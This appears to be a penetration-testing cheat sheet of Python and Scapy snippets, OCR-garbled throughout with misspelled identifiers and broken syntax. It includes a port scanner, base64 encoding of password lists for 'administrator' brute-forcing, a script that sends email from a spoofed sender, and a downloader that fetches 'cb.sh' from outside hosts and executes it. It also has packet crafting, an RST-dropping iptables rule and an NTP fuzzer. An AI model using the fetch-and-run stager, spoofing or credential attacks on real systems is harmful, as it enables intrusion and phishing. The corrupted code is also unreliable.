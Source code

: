 # Python

### Python - Port Scanner
```python
import socket as sk
for port in range (1, 1024):
    try:
        s=sk. socket ( sk .AF_INET, sk. SOCK_STREAM)
        s.settimeout(1000)
        s. connect ( (' 127. 0. 0. 1 ' , port) )
        print '%d:OPEN' % (port)
        s.close
    except: continue 
```


### Python - Generating base64 words
```python
#!/usr/bin/pjthon
import base64
filel=open("pwd.lst","r")
file2=open("b64pwds.lst","w")
for line in file1:
    clear= "administrator:"+ str.strip(line)
    new= base64.encodestring(clear)
    file2.write(new)
```

### Python - Convert Windows registry from hex to ascii
```python
import binascii, sys, string
dataFormatHex = binascii.a2b_hex(sys.argv[1])
output = ""
for char in dataFormatEex:
    if char in string.printable: output += char
    else: output += "."
print ''\n'' + output
```


### Python - Reading all folder files and searching with regex
```python
import glob, re
for msg in glob.glob('/tmp/.txt'):
    filer = open ((msg), 'r')
    data = fi1er.read()
    message= re.findall(r' message (.'?) /message ', data, re.DOTALL)
    print "File %s contains %s" % (str(msg) ,message)
    fi1er.c1ose()
```

### Python - Building a web server encrypted with ssl
```python
# Create SSL cert (follow prompts for customization)
  openssl req -new -x509 -keyout cert.pem -out cert.pern -days 365 -nodes

#Create httpserver.pj
  import BaseHTTPServer,SimpleHTTPServer,ssl

cert ="cert.pem"
httpd = BaseHTTPServer.HTTPServer( ('192.168.1.10' ,443),
Simp1eHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap socket(httpd.socket,certflle=cert,server side=True)
httpd.serve_forever()
```

### Python - Web Server on port 8888
```python
python3 -m  http.server 8888
```


### Python - Send email (sendmail must be installed)
```python
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```


### Python - Get the file from http and run it
```python
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```


## Scapy
When you craft TCP packets with Scapy, the underlying OS will not recognize the initial SYN packet and will reply with a RST packet. To mitigate this you need to set the following Iptables rule: 

`iptables -A OUTPUT -p tcp –tcp-flags RST RST -j DROP`

```text
from scapy.all import * --> Load all scapy libraries
ls () --> List of all protocols
lsc () --> List of all functions
conf --> Display and settings
IP(src=RandiP()) --> Generate random destination IP
Ether(src=RandMAC() I	--> Generate random destination MAC
ip=IP(src=”1.1.1.1”,dst=”2.2.2.2”)	--> Change the ip parameter
tcp=TCP(dport=”443”)	--> Change the tcp parameter
data= “TCP data”	--> Specify the data part
packet=ip/tcp/data	--> Create ip and tcp packet
packet.show()	--> Show package settings
send(packet,count=1)	--> Send 1 packet to layer 3
sendp(packet,count=2)	--> Send 2 packets to layer 3
sendpfast(packet)	--> Send faster with tcpreply
sr(packet)	--> Send 1 package and get the result
sr1(packet)	--> Post only one reply
for i in range(0,1000): send (packet·)	--> Sending a set a thousand times
sniff(count=100,iface=eth0)	--> Listening for hundred packets on eth0
```


### Send icmp message on ipv6
```python
sr ( IPv6 ( src=" ipv6 ", dst="ipv6")/ ICMP ())
```

### udp packet and payload
```python
ip=IP(src="ip", dst="ip")
u=UDP(dport=1234, sport=5678)
pay = "my UDP packet"
packet=ip/u/pay
packet.show( )
wrpcap ("out.pcap",packet) :write to pcap
send(packet)
```

### Ntp fuzzer operation
```python
packet=IP(src="ip" ,dst=" ip ")/UDP(dport=l23)/fuzz(NTP(version=4,mode=4))
```

### Send http message
```python
from scapy.all import *
# Add iptables rule to block attack box from sending RSTs
# Create web.txt with entire GET/POST packet data
fileweb = open("web.txt",'r')
data = fileweb.read()
ip = IP(dst="ip")
SYN=ip/TCP(rport=RandNum(6000,7000),dport=BO,flags="S",seq=4)
SYNACK = sr1(SYN)
ACK=ip/TCP(sport=SYNACK.dport,dport=BO,flags="A",seq=SYNACK.ack,ack=SYNACK.
seq+l)/data
reply,error = sr(ACK)
print reply.show()
```
